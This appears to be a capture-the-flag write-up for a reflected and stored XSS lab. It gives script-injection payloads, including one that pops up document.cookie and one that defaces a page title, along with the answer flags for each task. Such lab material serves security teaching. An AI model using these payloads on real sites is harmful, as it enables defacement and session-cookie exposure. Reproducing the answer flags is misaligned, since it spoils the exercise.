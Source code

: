 # Task 20

### Navigate to [http://10.10.172.84/](http://10.10.172.84/) in your browser and click on the "Reflected XSS" tab on the navbar; craft a reflected XSS payload that will cause a popup saying "Hello". <a href="#navigate-to-http101017284-in-your-browser-and-click-on-the-reflected-xss-tab-on-the-navbar-craft-a-r" id="navigate-to-http101017284-in-your-browser-and-click-on-the-reflected-xss-tab-on-the-navbar-craft-a-r"></a>

On input search

```javascript
<script>alert(“Hello”)</script>
```

#### Answer <a href="#answer" id="answer"></a>

ThereIsMoreToXSSThanYouThink

### On the same reflective page, craft a reflected XSS payload that will cause a popup with your machines IP address. <a href="#on-the-same-reflective-page-craft-a-reflected-xss-payload-that-will-cause-a-popup-with-your-machines" id="on-the-same-reflective-page-craft-a-reflected-xss-payload-that-will-cause-a-popup-with-your-machines"></a>

```javascript
<script>alert(window.location.hostname)</script>
```

#### Answer <a href="#answer-1" id="answer-1"></a>

ReflectiveXss4TheWin

### Now navigate to [http://10.10.172.84/](http://10.10.172.84/) in your browser and click on the "Stored XSS" tab on the navbar; make an account. Then add a comment and see if you can insert some of your own HTML. <a href="#now-navigate-to-http101017284-in-your-browser-and-click-on-the-stored-xss-tab-on-the-navbar-make-an" id="now-navigate-to-http101017284-in-your-browser-and-click-on-the-stored-xss-tab-on-the-navbar-make-an"></a>

```html
<h1>this is an HTML tag </h1>
```

#### Answer <a href="#answer-2" id="answer-2"></a>

HTML\_T4gs

### On the same page, create an alert popup box appear on the page with your document cookies. <a href="#on-the-same-page-create-an-alert-popup-box-appear-on-the-page-with-your-document-cookies" id="on-the-same-page-create-an-alert-popup-box-appear-on-the-page-with-your-document-cookies"></a>

```javascript
<script>alert(document.cookie)</script>
```

#### Answer <a href="#answer-3" id="answer-3"></a>

W3LL\_D0N3\_LVL2

### Change "XSS Playground" to "I am a hacker" by adding a comment and using Javascript. <a href="#change-xss-playground-to-i-am-a-hacker-by-adding-a-comment-and-using-javascript" id="change-xss-playground-to-i-am-a-hacker-by-adding-a-comment-and-using-javascript"></a>

Find the ID of the XSS playground element

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

```javascript
<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>
```

#### Answer <a href="#answer-4" id="answer-4"></a>

websites\_can\_be\_easily\_defaced\_with\_xss

